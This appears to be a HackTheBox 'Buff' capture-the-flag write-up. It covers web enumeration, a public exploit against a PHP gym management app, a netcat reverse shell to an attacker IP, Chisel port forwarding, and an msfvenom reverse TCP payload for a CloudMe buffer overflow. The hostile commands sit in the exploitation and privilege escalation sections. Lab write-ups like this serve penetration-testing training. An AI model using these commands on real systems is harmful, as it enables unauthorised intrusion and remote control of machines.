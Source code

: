 ```yaml
---
published: false
---
```

https://0xprashant.github.io/hackthebox/buff/buff.png

<h1>Enumeration</h1>
<blockquote>
<p>ِLet`s begain scanning with NMAP</p>
</blockquote>

<img src="https://i.ibb.co/0rj2J7D/Enumeration.png" alt="Enumeration" border="0">
  
<blockquote>
<p>ِTwo ports are open 8080 , 7680</p>
</blockquote>  
  
<img src="https://i.ibb.co/T40QWjW/HTTP-Page.png" alt="HTTP-Page" border="0">
  
<blockquote>
<p>ِAfter opening the webapp at 8080 i found out it`s from ProjectWorld.in</p>
<p>And i searched for the project</p>
<p>https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/</p> 
<p>I searched for public exploit for the project and i found this <a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
</blockquote> 
  
<h1>Exploiting</h1>
<p>Python script</p>
<img src="https://i.ibb.co/J3wX1Y0/Authenticated.png" alt="Authenticated" border="0">

<blockquote>
<p>ِWe got in !</p>
</blockquote>

<blockquote>
<p>ِLet`s upload nc.exe</p>
</blockquote>
<img src="https://i.ibb.co/N9286zX/Uploading.png" alt="Uploading" border="0">

<blockquote>
<p>Let`s get our reverse shell</p> 
<p>ِC:\xampp\htdocs\gym\upload> powershell -c ".\nc.exe 10.10.10.10 1234 -e powershell"</p>
</blockquote>

<img src="https://i.ibb.co/cD5Zn57/Shaun.png" alt="Shaun" border="0">
<blockquote>
<p>ِWe got shell as SHAUN ! , Let`s get the user hash.</p>
</blockquote>

<h1>USER Flag !</h1>

<img src="https://i.ibb.co/nmtcnfR/USER.png" alt="USER" border="0">

<h1>Privilege Escalation</h1>
<blockquote>
<p>I uploaded WinPEAS.exe and after i ran it i found a vulnerable app called Cloudme.exe,it`s running on 8888 port </p>
<p>I search for an exploit and found these</p>
</blockquote>
<img src="https://i.ibb.co/JrfGmMk/image-3.png" alt="image-3" border="0">

<blockquote>
<p>ِWe need to use portforwarding to run the exploit, you can use CHISEL or PLINK.</p>
<p>It should be compiled to exe to run on windows i used golang</p>
<p>env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" </p>
<p>You can compile it by this command</p> 
<p>After compilt it to exe , let`s upload it </p> 
</blockquote>

<img src="https://i.ibb.co/GxG19W1/uploading-chisel.png" alt="uploading-chisel" border="0">


<blockquote>
<p>ِI started the server at 8080 on my machine</p>
</blockquote>

<img src="https://i.ibb.co/8dyHfzN/on-your-linux-server.png" alt="on-your-linux-server" border="0">

<blockquote>
<p>ِWe need to start Chisel on the victim machine to connect</p>
</blockquote>

<img src="https://i.ibb.co/5B6KMN7/Chisel-on-victim.png" alt="Chisel-on-victim" border="0">

<h1>Exploiting Cloudme</h1>
<blockquote>
<p> We need to adjust msfvenom cmd to get a shell to our machine</p> 
<p>So you to copy this and adjust your Ip address to get your shell
"msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python" 
<a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
<p>Run your listner on the port you choosed in the payload then run the EXPLOIT ..</p>
</blockquote>

<img src="https://i.ibb.co/1r8Xqc2/Listner.png" alt="Listner" border="0">
<img src="https://i.ibb.co/b374fJZ/Got-in.png" alt="Got-in" border="0">

<h1>ROOT Flag !</h1>
<img src="https://i.ibb.co/By7fdbL/admin-hash.png" alt="admin-hash" border="0">












 
